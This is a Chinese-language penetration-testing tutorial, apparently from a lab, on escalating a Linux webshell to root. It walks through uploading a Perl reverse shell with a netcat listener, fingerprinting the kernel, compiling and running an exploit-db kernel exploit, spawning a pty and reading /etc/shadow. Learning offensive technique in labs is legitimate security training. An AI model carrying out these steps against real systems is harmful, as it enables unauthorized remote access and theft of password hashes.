 ## 1、简介

通常我们在拥有一个webshell的时候，一般权限都是WEB容器权限，如在iis就是iis用户组权限，在apache 就是apache权限，一般都是权限较低，均可执行一些普通命令，如查看当前用户，网络信息，ip信息等。如果我想进行内网渗透就必须将权限提权到最高，如系统权限 超级管理员权限。

## 2、创建交互shell

linux 提权需要交互shell 

可以使用工具perl-reverse-shell.pl 建立 sockets

http://www.webtester.com/upload/ac11b65c5a7fbb210b069f9c382c8fffmoon.php

菜刀连接

修改perl-reverse-shell.pl的端口及返回sockets主机

![image-20210426010445802](../../acess/image-20210426010445802.png) 

上传文件到目标服务器

本地使用nc 监听端口

```bash
nc -vvlp 1234 
```

 运行脚本获取交互shell

```bash
chmod +x perl-reverse-shell.pl
./perl-reverse-shell.pl
```

![image-20210426011635732](../../acess/image-20210426011635732.png)

## 3、查看发行版

```bash
cat /etc/issue
cat /etc/*release
```

查看内核版本

```bash
uname -a
```

## 4、查找可用的提权exp

https://www.exploit-db.com/

Linux moonteam-virtual-machine 3.19.0-15-generic #15-Ubuntu SMP Thu Apr 16 23:32:37 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

https://www.exploit-db.com/exploits/37292

## 5、进行提权

在目标机子编译提权exp 如果编译不成功在本地编译后在上传的目标上 

```bash
#编译
gcc exp.c  -o exp
#增加运行权限
chmod +x exp
#运行
./exp
```

![image-20210426013115225](../../acess/image-20210426013115225.png) 

当前用户从www-data提权到 root,切换shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

查询当前用户 id
查询密文文件

```bash
cat /etc/shadow
```

![image-20210426013334544](../../acess/image-20210426013334544.png) 

 

 

 

 

 

 

 